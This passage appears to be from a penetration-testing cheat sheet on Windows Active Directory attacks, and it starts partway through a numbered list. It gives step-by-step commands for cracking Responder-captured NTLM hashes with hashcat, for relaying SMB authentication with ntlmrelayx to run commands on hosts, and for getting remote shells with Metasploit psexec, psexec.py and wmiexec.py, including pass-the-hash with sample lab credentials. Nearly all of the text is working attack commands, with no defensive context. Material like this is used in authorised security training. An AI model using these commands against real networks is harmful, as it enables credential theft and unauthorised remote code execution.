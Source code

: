 3.Responder will give you result,you will crack in this way.
```bash
hashcat -m 5600 hash.txt /usr/share/wordlists  rockyou.txt
```

SMB Relay=>
For this attack works, SMB Signing must be **disabled**.

1.Checking SMB signing:
```bash
nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24
```

2.Open responder:
```bash
responder -I tun0 -dwPv 
```

3.Make configurations for responder tool here, '/etc/responder/Responder.conf'
You need to **disable** (make OFF) HTTP and SMB

4.Set up your relay
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

5.Write your ip as this format to search on File Explorer
```bash 
//attacker_ip
```

Reminder! Run commands via ntlmrelayx.py
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

Gaining Shell Access=>

First Way:
We can use Metasploit for this.
```bash
use exploit/windows/smb/psexec
set SMBDomain MARVEL.local
set SMBUser fcastle
set SMBPass Password1
```

Second Way:
We can use psexec.py to access
```bash
psexec.py marver.local/fcastle:'Password1'@10.0.0.25
```

Third way:
Again, we use psexec.py to access , but with user's hashes (LM:NT), it is like Pass-The-Hash attack
```bash
psexec.py administrator@10.0.0.25 --hashes [LM-HASH]:[NTLM-HASH]
```

Fourth Way:
If psexec.py doesn't work for third way,
you need to use **wmiexec.py** as below.
```bash
wmiexec.py administrator@192.168.138.137 --hashes [LM-HASH]:[NTLM-HASH]
```
